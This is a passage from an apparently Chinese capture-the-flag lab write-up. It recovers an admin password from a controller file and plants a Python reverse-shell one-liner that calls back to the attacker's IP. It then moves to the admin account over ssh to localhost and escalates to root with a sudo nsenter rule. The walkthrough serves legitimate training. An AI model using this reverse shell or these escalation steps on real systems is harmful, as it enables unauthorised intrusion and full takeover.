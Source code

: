 Route::load();
Route::run();
```

最后在```../controllers/Api.php```找到admin的登录凭证：niceWorkHackerm4n

登录进去后在靶机提供的webshell栏写payload:
```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.21.169",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

收到反弹shell
```
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.243.173] 59426
$ ls
ls
bootstrap.min.css  bootstrap.min.js  index.php  jquery.min.js  script.js

```

查看```/etc/passwd```我们知道admin是系统里的期中一个用户，由于我们已经知道admin的密码，这个时候本来可以直接su admin
然而这个系统并没有su 命令，这个时候可以使用ssh来转换角色

>ssh admin@localhost sh
```
www-data@6b364d3940e6:/var/www/html/public$ ssh admin@localhost sh
ssh admin@localhost sh
admin@localhost's password: 
id
uid=1000(admin) gid=1000(admin) groups=1000(admin),27(sudo)
whoami
admin
```

这个时候不要切换成tty，用sudo -l查看admin的超级权限，发现可以用/usr/bin/nsenter
```
sudo -l
Matching Defaults entries for admin on 6b364d3940e6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on 6b364d3940e6:
    (ALL) ALL
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /usr/bin/nsenter

```

直接提权到root
```
sudo /usr/bin/nsenter /bin/sh
id
id
uid=0(root) gid=0(root) groups=0(root)
